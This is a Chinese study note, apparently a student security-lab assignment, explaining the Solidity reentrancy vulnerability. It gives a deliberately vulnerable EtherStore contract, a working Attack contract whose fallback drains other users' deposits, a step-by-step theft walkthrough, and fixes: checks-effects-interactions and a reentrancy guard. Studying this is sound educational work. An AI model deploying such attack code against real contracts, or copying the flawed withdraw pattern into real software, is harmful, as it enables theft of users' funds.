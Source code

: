 # 三叶草实验室“期末任务”总结2
## 任务二：完成对重入漏洞原理的分析，复现，并提出修复方案
### 1. 什么是重入漏洞
以太坊智能合约的特点之一是合约之间可以进行相互间的外部调用。同时，以太坊的转账不仅仅局限于外部账户，合约账户同样可以拥有以太并进行转账等操作，且合约在接收以太的时候会触发 fallback 函数执行相应的逻辑，这是一种隐藏的外部调用。

我们先给重入漏洞下个定义：可以认为合约中所有的外部调用都是不安全的，都有可能存在重入漏洞。例如：如果外部调用的目标是一个攻击者可以控制的恶意的合约，那么当被攻击的合约在调用恶意合约的时候攻击者可以执行恶意的逻辑然后再重新进入到被攻击合约的内部，通过这样的方式来发起一笔非预期的外部调用，从而影响被攻击合约正常的执行逻辑。
### 2.漏洞示例：
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.3;
contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable { 
       balances[msg.sender] += msg.value;
    }
    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
### 3.漏洞分析
上面的代码就是个普通的充提币的合约，凭什么说他有重入攻击呢？我们来看这个合约的 withdraw 函数，这个函数中的转账操作有一个外部调用（msg.sender.call{value: bal}），所以我们就可以认为这个合约是可能有重入漏洞的，但是具体能否产生危害还需要更深入的分析：
1. 所有的外部调用都是不安全的且合约在接收以太的时候会触发 fallback 函数执行相应的逻辑，这是一种隐藏的外部调用，这种隐藏的外部调用是否会造成危害呢？
2. 我们可以看到在 withdraw 函数中是先执行外部调用进行转账后才将账户余额清零的，那我们可不可以在转账外部调用的时候构造一个恶意的逻辑合约在合约执行 balance[msg.sender]=0 之前一直循环调用 withdraw 函数一直提币从而将合约账户清空呢？
### 4.攻击合约
下面我们看看攻击者编写的攻击合约中的攻击手法是否与我们的漏洞分析相同：
```
contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
我们看到 EtherStore 合约是一个充提合约，我们可以在其中充提以太。下面我们将利用攻击合约将 EtherStore 合约中用户的余额清零的：

这里我们将引用三个角色，分别为：

用户：Alice，Bob

攻击者：Eve

1. 部署 EtherStore 合约；
2. 用户 1（Alice）和用户 2（Bob）都分别将 1 个以太币充值到 EtherStore 合约中；
3. 攻击者 Eve 部署 Attack 合约时传入 EtherStore 合约的地址；
4. 攻击者 Eve 调用 Attack.attack 函数，Attack.attack 又调用 EtherStore.deposit 函数，充值 1 个以太币到 EtherStore 合约中，此时 EtherStore 合约中共有 3 个以太，分别为 Alice、Bob 的 2 个以太和攻击者 Eve 刚刚充值进去的 1 个以太。然后 Attack.attack 又调用 EtherStore.withdraw 函数将自己刚刚充值的以太取出，此时 EtherStore 合约中就只剩下 Alice、Bob 的 2 个以太了；
5. 当 Attack.attack 调用 EtherStore.withdraw 提取了先前 Eve 充值的 1 个以太时会触发 Attack.fallback 函数。这时只要 EtherStore 合约中的以太大于或等于 1 Attack.fallback 就会一直调用 EtherStore.withdraw 函数将 EtherStore 合约中的以太提取到 Attack 合约中，直到 EtherStore 合约中的以太小于 1 。这样攻击者 Eve 会得到 EtherStore 合约中剩下的 2 个以太币（Alice、Bob 充值的两枚以太币）。

下面是攻击者的函数调用流程图：
<img src="https://img.learnblockchain.cn/attachments/2021/12/sTHfMpnf61b1dd9ee1bcf.png">

### 5.修复方案
（1）作为开发人员
站在开发者的角度我们需要做的是写好代码，避免重入漏洞的产生。

1. 写代码时需要遵循先判断，后写入变量在进行外部调用的编码规范（Checks-Effects-Interactions）；
2. 加入防重入锁。

下面是一个防重入锁的代码示例：
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.3;

contract ReEntrancyGuard {
    bool internal locked;

    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _; 
       locked = false; 
   }
}
```
（2）作为审计人员
作为审计人员我们需要关注的是重入漏洞的特征：所有涉及到外部合约调用的代码位置都是不安全的。这样在审计过程中需要重点关注外部调用，然后推演外部调用可能产生的危害，这样就能判断这个地方是否会因为重入点而产生危害。

***
## 心得
摘抄学习自：
https://mp.weixin.qq.com/s/4j5_CirSySE1GLd3BP9CZQ
https://blog.csdn.net/SierraW/article/details/118522718
因为第一次接触有关区块链智能合约方面的知识，对Sodlidity语言编程不清楚，目前Sodlidity的学习进度缓慢，所以只能对重入漏洞中涉及的代码理解记忆，并不能完全看懂。
